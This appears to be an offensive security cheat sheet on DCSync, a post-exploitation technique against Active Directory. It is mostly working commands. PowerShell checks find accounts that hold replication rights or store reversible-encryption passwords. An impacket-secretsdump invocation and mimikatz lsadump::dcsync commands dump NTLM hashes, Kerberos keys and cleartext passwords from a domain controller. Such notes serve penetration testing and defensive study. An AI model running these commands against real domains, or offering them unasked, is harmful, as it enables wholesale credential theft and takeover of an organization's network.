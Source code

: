 # DCSync

## <mark style="color:yellow;">About</mark>

<mark style="color:red;">**DCSync**</mark> is a <mark style="color:purple;">**post-exploitation technique**</mark> that abuses the <mark style="color:red;">**Microsoft Directory Replication Service Remote Protocol (MS-DRSR)**</mark>, which is normally used to synchronize data between Domain Controllers.

If an attacker obtains the appropriate replication privileges in Active Directory (such as <mark style="color:blue;">`Replicating Directory Changes All`</mark>), they can **impersonate a Domain Controller and request a targeted sync** of sensitive directory data — including password hashes, Kerberos tickets, and user credentials — without replicating the entire domain.

This results in full credential compromise over the network, without touching LSASS or memory on a domain controller.

## <mark style="color:yellow;">Checking Privs</mark>

### <mark style="color:blue;">Group Membership Check</mark>

```powershell
PS C:\> Get-DomainUser -Identity songbird | select samaccountname,objectsid,memberof,useraccountcontrol | fl
```

### <mark style="color:blue;">Rights Check</mark>

```powershell
PS C:\> $sid = "S-1-5-21-blahblahblah-1164"
PS C:\> Get-ObjectAcl "DC=militech,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

### <mark style="color:blue;">Reversible Encryption Check</mark>

<pre class="language-powershell"><code class="lang-powershell"><strong>PS C:\> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
</strong># OR
PS C:\> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'} |select samaccountname,useraccountcontrol
</code></pre>

## <mark style="color:yellow;">Secretsdump</mark>

```bash
impacket-secretsdump -outputfile militech_hashes -just-dc MILITECH/songbird@13.13.13.13 
```

### <mark style="color:blue;">Additional Parameters</mark>

* <mark style="color:green;">`-just-dc-ntlm`</mark> - NTLM hashes only
* <mark style="color:green;">`-just-dc-user <USERNAME>`</mark> - Extract data for certain user
* <mark style="color:green;">`-pwd-last-set`</mark> - To see last time user changed password
* <mark style="color:green;">`-history`</mark> - If we want to dump password history
* <mark style="color:green;">`-user-status`</mark> - Check if user is disabled

<mark style="color:green;">**Secretsdump**</mark> would make few files each for each type of credentials:

* `Kerberos Tickets`
* `NTLM Hashes`
* `Cleartext Reversible Passwords` (if option turned on, and because we are replicating DC, tool automaticly tooks also decryption keys and decrypt them)&#x20;

## <mark style="color:yellow;">Mimikatz</mark>

```shell-session
.\mimikatz.exe
mimikatz # privilege::debug
mimikatz # lsadump::dcsync /domain:MILITECH.LOCAL /user:MILITECH\administrator
```

